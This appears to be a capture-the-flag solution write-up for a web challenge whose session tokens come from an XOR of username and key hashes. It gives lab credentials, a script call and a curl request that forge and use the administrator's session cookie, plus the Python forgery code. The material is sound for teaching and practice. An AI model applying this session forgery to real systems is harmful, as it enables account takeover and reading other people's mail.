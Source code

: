Solution
========

  * Try to login using an username with a non-alphanumeric
    character and look at the fake **error page** to see how the
    session token is being generated (the username hash is _xor_'ed
    with the key hash). In here we can also see that the app is
    installed in **bruce**'s home directory (which tells us that
    bruce is the system administrator and, thus, our target).

  * Login with user `pjsmith` and password `freire7f1` and
    get the session ID. The only email in pjsmith's inbox comes
    from the system administrator, which is called **bruce** (
    this is another way to find who our victim is).

  * Run this to get the session ID for the `bruce` user:

        $ ./test_p200.py pjsmith:da32ae0cbb112f74a43dd2bd39b8592bfcfbae57 bruce

  * Now you can look at bruce's email with:

        $ curl -H 'Cookie: csrftoken=U3g7HfBKsra6wLwf1wE8XZdtnBnsmQrJ; sessionid="bruce:ccbf1fb417b28a6ea609d57af60f725d320e50bb"' http://127.0.0.1:8753/viewmail/1/

Look into `test_p200.py` for the details of how the victim's session ID
is obtained:

```python
user_hash = sha1(user).digest()
victim_hash = sha1(victim).digest()
hash_xor = string_xor(user_hash, victim_hash)

victim_session = string_xor(session, hash_xor).encode("hex")
```

Also, check this: https://en.wikipedia.org/wiki/Stream_cipher_attack
